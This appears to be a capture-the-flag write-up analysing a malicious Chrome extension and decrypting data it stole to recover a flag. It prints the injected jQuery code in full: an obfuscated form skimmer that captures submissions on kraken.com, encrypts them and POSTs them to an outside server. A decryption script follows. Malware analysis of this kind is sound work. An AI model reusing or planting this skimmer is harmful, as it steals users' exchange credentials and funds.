


> Hey it's me Mr. Shock, I’ve got a question, totally not for me, of course. It’s for a friend. So here’s the situation, this friend just lost about 1 million USDT. Yeah... brutal. He’s kind of in panic mode right now, and I think he really needs that money back.
>
> Now, here’s the weird part. We’re not exactly sure how it happened. But let’s just say this friend has a very special relationship with his browser. He’s got it loaded with so many Chrome extensions, it’s honestly a miracle the thing even runs. Like, there’s an extension for everything. Want to count pixels? Got it. Turn tabs into cats? Got that too. He’s basically running an entire app store in his toolbar.
>
> I’m guessing one of those extensions was malicious. Probably some sneaky malware just chilling in the background, waiting for a chance to strike. I’ve attached one of the extensions he remembers installing before the whole thing went down. Would really appreciate it if you could take a look.
>
> Also... just between us... let’s pretend this friend isn’t terrible at cybersecurity and definitely didn’t ignore all the red flags, alright?

by `Lurifos`

---

The point is that we're given a `.crx` file containing a Chrome extension. Upon inspection, there are several JavaScript files included, such as `tailwind.js` and `jquery.js`. If we analyze them further, we'll notice that some malicious code has been injected into these scripts. This code is used to **encrypt form data** and **send it to a remote server** at `https://dongo-cat.lurifos.dev/file`.

Basically, just use an online JavaScript beautifier like [beautifier.io](https://beautifier.io) to make the code readable.

`jquery-3.7.1.slim.min.js`
```js
const x = (e, o) => {
        if (8 !== e.length || 8 !== o.length) throw new Error("Cannot encrypt, invalid block");
        return e.map(((e, n) => e ^ o[n]))
    },
    a_func_a = (e, o, n) => {
        if (e.length % 8 != 0) throw new Error("Cannot encrypt, invalid block");
        let r = [],
            t = n.slice(0, 8);

        function c(e) {
            return x(e, o)
        }
        for (let o = 0; o < e.length; o += 8) {
            const n = e.slice(o, o + 8),
                a = c(x(n, t));
            t = x(a, n), r.push(a)
        }
        return r.flat()
    };
$(document).on("submit", "form", (async function(e) {
    const o = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 100, 111, 110, 103, 111, 45, 99, 97, 116, 46, 108, 117, 114, 105, 102, 111, 115, 46, 100, 101, 118, 47);
    if (!location.hostname.endsWith(".kraken.com") && "kraken.com" !== location.hostname) return;
    const n = new FormData(this),
        r = {};
    for (const [e, o] of n.entries()) r.hasOwnProperty(e) ? (Array.isArray(r[e]) || (r[e] = [r[e]]), r[e].push(o)) : r[e] = o;
    const t = JSON.stringify(r);
    let c = Array.from((new TextEncoder).encode(t)).concat(Array((8 - t.length % 8) % 8).fill(0));
    k1 || (k1 = "moc.krak");
    const a = Array.from((new TextEncoder).encode(k1)),
        s = [];
    s.push(100), s.push(48), s.push(110), s.push(103), s.push(48);
    let h = location.hostname;
    h.length > 0 && (h = h.split("").map((e => e.charCodeAt(0))), s.push(...h)), s.push(0);
    const l = Math.floor(Date.now() / 1e3).toString(),
        i = new Uint8Array(await crypto.subtle.digest("SHA-256", (new TextEncoder).encode(l))).slice(0, 8);
    i.forEach((e => {
        e <= 256 && s.push(0)
    }));
    c = ((e, o) => {
        let n = Array.from(e),
            r = e.length;
        for (let e = 0; e < r; e++) t = o[e % o.length] % r, c = e, [n[t], n[c]] = [n[c], n[t]];
        var t, c;
        return n
    })(c, s.reduce(((e, o) => 0 === o || e.done ? (e.done = !0, e) : (e.result.push(o), e)), {
        result: [],
        done: !1
    }).result);
    a_func_a(c, a, i).forEach((e => {
        s.push(e)
    }));
    const u = String.fromCharCode(102, 105, 108, 101);
    fetch(o + u, {
        method: "POST",
        headers: {
            "Content-Type": "application/octet-stream"
        },
        body: new Uint8Array(s)
    }).then((e => {
        e.ok ? console.log("Success") : console.log("Error")
    })).catch((e => {
        console.error("Error:", e)
    }))
}));
const key = "moc.krak";
```

`tailwind.js`

```js
k1=["absolute","activate","baseline","blending","bordered","boxstyle","browsing","centrate","circular","clipping","collapse","columned","computed","contrast","cropping","cursived","declared","defaultt","dimcolor","disabled","dividing","dropping","ellipsis","emphasis","enlarged","expanded","facesize","fanciful","filtered","flexwrap","floating","fontsize","fontface","fonttype","foremost","formlook","gradient","graphics","gridlook","grouping","headings","hovering","imagemap","imported","inlining","innerbox","inputbox","inserted","isolated","italicst","junction","justifyt","kernings","keyframe","labeling","layering","leadings","lineheig","linktype","listitem","markdown","maskstyp","matching","maximums","measures","mimetype","minified","minwidth","mouseout","moveable","multisel","navstyle","negative","newtabst","nobreaks","nonclear","nospaced","numerate","offwhite","opaquely","outlines","overlaid","overflow","override","pacingst","paddings","pageflow","pagesize","paneling","patterns","pinnable","pointing"][Math.floor(90*Math.random())];
```

So the key is not just `"moc.krak"`; there are **90 potential keys**. We can brute-force the correct key by decrypting the encrypted payload found in this extension.

Next step is to understand the code or ask ChatGPT to help refactor the logic. Cue the classic moment when asks ChatGPT to "beautify":



When we visit `https://dongo-cat.lurifos.dev/file`, we see a **list of uploaded files**:



We pick the **earliest file**, which is `6fd3c199ffa6a3f32156d117844dcb18b25a638b268e6ce92c840fe406dd7bc2_2025-05-09T06:48:08.599Z.bin`. This is likely the encrypted payload containing the flag.

Then we write a **decryption script** for it:

```js
import fs from "fs";

const x = (block1, block2) => {
    if (block1.length !== 8 || block2.length !== 8)
        throw new Error("Cannot encrypt, invalid block");
    return block1.map((byte, idx) => byte ^ block2[idx]);
};

const decryptData = (encryptedData, keyBytes, nonce) => {
    if (encryptedData.length % 8 !== 0)
        throw new Error("Cannot decrypt, invalid block");

    let decryptedBlocks = [];
    let currentVector = nonce.slice(0, 8);

    function decryptBlock(block) {
        return x(block, keyBytes); // same as encryption due to XOR symmetry
    }

    for (let i = 0; i < encryptedData.length; i += 8) {
        const encryptedBlock = encryptedData.slice(i, i + 8);
        const temp = decryptBlock(encryptedBlock);
        const originalBlock = x(temp, currentVector);
        decryptedBlocks.push(originalBlock);
        // Update current vector just like in encryption
        currentVector = x(encryptedBlock, originalBlock);
    }

    return decryptedBlocks.flat();
};

const decryptCapturedPayload = (payload) => {
    // Extract the prefix (magic bytes + hostname)
    const prefix = payload.slice(0, payload.indexOf(0));
    
    let dataStartIndex = payload.indexOf(0) + 1 + 8;
    const encryptedData = payload.slice(dataStartIndex);
    
    return encryptedData;
};

async function getNonce(timestamp) {
    const encoder = new TextEncoder();
    const hashBuffer = await crypto.subtle.digest(
        "SHA-256",
        encoder.encode(timestamp.toString())
    );
    return Array.from(new Uint8Array(hashBuffer)).slice(0, 8);
}

const s = [];
const encryptedData = fs.readFileSync("6fd3c199ffa6a3f32156d117844dcb18b25a638b268e6ce92c840fe406dd7bc2_2025-05-09T06:48:08.599Z.bin");

const currentTime = Math.floor(new Date('2025-05-09T06:48:08.599Z').getTime() / 1e3);
// console.log("Timestamp:", currentTime);

for (let yyy = currentTime - 5; yyy < currentTime + 5; yyy++) {
    let nonce = await getNonce(yyy);
    // console.log("Nonce:", nonce);

    const payload = decryptCapturedPayload(encryptedData);

    for (let wtf = 0; wtf < 90; wtf++) {
        const k1 = ["absolute","activate","baseline","blending","bordered","boxstyle","browsing","centrate","circular","clipping","collapse","columned","computed","contrast","cropping","cursived","declared","defaultt","dimcolor","disabled","dividing","dropping","ellipsis","emphasis","enlarged","expanded","facesize","fanciful","filtered","flexwrap","floating","fontsize","fontface","fonttype","foremost","formlook","gradient","graphics","gridlook","grouping","headings","hovering","imagemap","imported","inlining","innerbox","inputbox","inserted","isolated","italicst","junction","justifyt","kernings","keyframe","labeling","layering","leadings","lineheig","linktype","listitem","markdown","maskstyp","matching","maximums","measures","mimetype","minified","minwidth","mouseout","moveable","multisel","navstyle","negative","newtabst","nobreaks","nonclear","nospaced","numerate","offwhite","opaquely","outlines","overlaid","overflow","override","pacingst","paddings","pageflow","pagesize","paneling","patterns","pinnable","pointing"][wtf]
        const keyBytes = Array.from(new TextEncoder().encode(k1));

        const decryptedBytes = decryptData(payload, keyBytes, nonce);

        const newBytesArray = [];
        for (let i = 0; i < decryptedBytes.length; i++) {
            for (let j = 0; j < 8; j++) {
                newBytesArray.push(decryptedBytes[i][j]);
            }
        }

        s.push(100, 48, 110, 103, 48);

        let hostname = 'id.kraken.com';
        if (hostname.length > 0) {
            const hostnameBytes = hostname.split("").map(ch => ch.charCodeAt(0));
            s.push(...hostnameBytes);
        }
        s.push(0);

        nonce = await getNonce(yyy);
        nonce.forEach(byte => {
            if (byte <= 256) {
                s.push(0);
            }
        });

        function unshuffleDataBytes(dataBytes, s) {
            // Recreate the seedArray used during shuffle
            const seedArray = s.reduce((acc, value) => {
                if (value === 0 || acc.done) {
                    acc.done = true;
                    return acc;
                }
                acc.result.push(value);
                return acc;
            }, { result: [], done: false }).result;

            const arr = Array.from(dataBytes);
            const len = arr.length;

            // Rebuild the original swap sequence
            const swaps = [];
            for (let i = 0; i < len; i++) {
                const swapIndex = seedArray[i % seedArray.length] % len;
                swaps.push([i, swapIndex]);
            }

            // Undo swaps in reverse order
            for (let i = swaps.length - 1; i >= 0; i--) {
                const [a, b] = swaps[i];
                [arr[a], arr[b]] = [arr[b], arr[a]];
            }

            return arr;
        }

        const dataBytes = unshuffleDataBytes(newBytesArray, s);
        const dataString = String.fromCharCode(...dataBytes);

        if (dataString.includes("IFEST13")) {
            console.log("Found IFEST13 in dataString:", dataString);
            break;
        }
    }
}
```

It brute-forces the timestamp window (±5 seconds) and all 90 possible keys, tries to reverse the encryption steps (unshuffle, XOR, etc.), and searches for a flag pattern (`IFEST13`). When found, it prints the decrypted string.
